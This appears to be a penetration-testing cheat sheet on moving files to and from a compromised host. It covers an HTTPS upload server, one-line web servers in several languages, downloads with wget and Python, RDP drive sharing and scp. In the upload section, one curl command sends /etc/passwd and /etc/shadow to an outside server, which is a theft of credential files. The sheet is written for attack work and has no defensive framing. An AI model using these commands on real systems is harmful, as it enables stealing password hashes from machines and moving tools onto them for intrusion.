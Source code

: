 # Collection

## Program Upload

#### Uploadserver

<pre><code><strong># Download Uploadserver
</strong><strong>sudo python3 -m pip install --user uploadserver
</strong><strong># Create a self-signed certificate
</strong>openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# Make webroot
mkdir https &#x26;&#x26; cd https
# Start web service
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
# Uploading multiple files via curl
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
</code></pre>

**Creating a Web Server with Python3**

```
python3 -m http.server (default port 80 change port with -p)
```

**Creating a Web Server with Python2.7**

```
python2.7 -m SimpleHTTPServer
```

**Creating a Web Server with PHP**

```
php -S 0.0.0.0:8000
```

**Creating a Web Server with Ruby**

```
ruby -run -ehttpd . -p8000
```

**Using Python3**

```
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://acuity.io/repository/getsmart.sh", "getsmart.sh")'
```

**Using wget**

```
wget 192.168.49.128:8000/filetotransfer.txt
```

```
xfreerdp /v:1.2.3.4 /u:acuity /p:"SuperStr00ng!" /drive:linux,/home/acuity/share
```

### SCP File Operations

#### Uploading Files

```
scp /home/acuity/file.txt acuity@$IP:/home/hacked/file.txt
```
